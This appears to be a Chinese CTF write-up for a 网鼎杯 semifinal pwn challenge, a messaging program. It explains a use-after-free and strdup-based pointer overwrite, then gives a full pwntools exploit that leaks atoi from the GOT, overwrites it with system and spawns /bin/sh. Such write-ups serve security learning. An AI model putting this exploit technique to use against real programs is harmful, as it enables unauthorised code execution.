 title: 网鼎杯半决赛pwn1
categories:
- PWN
---

# 一个短信系统

- 定义了两个结构体,分别如下,一个是用户信息的结构体,一个是信息结构体
  
```
00000000
00000000 message         struc ; (sizeof=0x18, align=0x8, mappedto_6)
00000000 title           dq ?                    ; offset
00000008 content         dq ?
00000010 next            dq ?
00000018 message         ends
00000018
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 pwn             struc ; (sizeof=0x128, align=0x8, mappedto_7)
00000000 malloc_name_ptr dq ?
00000008 age             dq ?
00000010 description     db 256 dup(?)
00000110 messagenode     dq ?                    ; offset
00000118 friend_ptr      dq ?
00000120 inuse           dq ?
00000128 pwn             ends
00000128
```

- 程序逻辑有一些复杂,但是有几个关键的地方值得注意一下
- 人物信息结构体中有许多指针,而且排布相对稳定
- 程序只有两处地方调用了free函数,并且未置空指针,这就导致了UAF的存在
- 还有strdup函数,第一次见,作用不是很清楚,去查了一下才知道它的作用和malloc后scanf是一样的

- 程序中有大量的链表指针操作,显得非常复杂,但是不用太过于纠结,在我尝试了一下执行free后,人物信息结构体被free掉了,这就导致了有0x130的空间可以被利用
- 期间我尝试了利用strdup来进行堆块错位的操作,但是并没有成功,因为p64()函数自动补的0影响了strdup的过程,而唯一比较容易的可控的地方是nameptr,只要覆盖了name指针内容,show后再进行updata,就可以leak程序基址修改程序的got表
- 这里我free了两块大堆块,导致了我有0x260的空间可以使用,然后我就可以利用刚才的strdup,来进行指针的覆盖
  
```python
from pwn import *

r = process("./pwn")
atoi_libc = 0x36E80 #offset
sys_libc = 0x45390

def register(namesize,name):
    r.sendlineafter("Your choice:","2")
    r.sendlineafter("Input your name size:",str(namesize))
    r.sendafter("Input your name:",name)
    r.sendlineafter("Input your age:","18")
    r.sendlineafter("Input your description:","1"*0x100)

def login(name):
    r.sendlineafter("Your choice:","1")
    r.sendafter("Please input your user name:",name)

def show():
    r.sendlineafter("Your choice:","1")

def edit(name,age):
    r.sendlineafter("Your choice:","2")
    r.sendafter("Input your name:",name)
    r.sendlineafter("Input your age:","18")
    r.sendlineafter("Input your description:","1"*0x100)

def AddDeleFriend(module,name):
    r.sendlineafter("Your choice:","3")
    r.sendafter("Input the friend's name:",name)
    r.sendlineafter("So..Do u want to add or delete this friend?(a/d)",module)

def message(name,content,title):
    r.sendlineafter("Your choice:","4")
    r.sendafter("Which user do you want to send a msg to:",name)
    r.sendlineafter("Input your message title:",title)
    r.sendlineafter("Input your content:",content)
    
def logout():
    r.sendlineafter("Your choice:","6")


def exp():
    register(0x80,"111111")
    register(0x80,"222222")

    login("111111")
    AddDeleFriend("a","111111")
    AddDeleFriend("d","111111")
    logout()
    login("222222")
    AddDeleFriend("a","222222")
    AddDeleFriend("d","222222")
    payload = '\x30'*16*15
    payload += p64(0x602060)
    message("222222",payload,"title")
    show()

    r.recvuntil("Username:")
    atoi = u64(r.recv(6) +'\x00'*2)
    print "atoi :%x"%atoi
    system=atoi-atoi_libc + sys_libc
    edit(p64(system),18)
    r.sendline("/bin/sh")
    r.interactive()
    
if __name__ == "__main__":
    exp()
```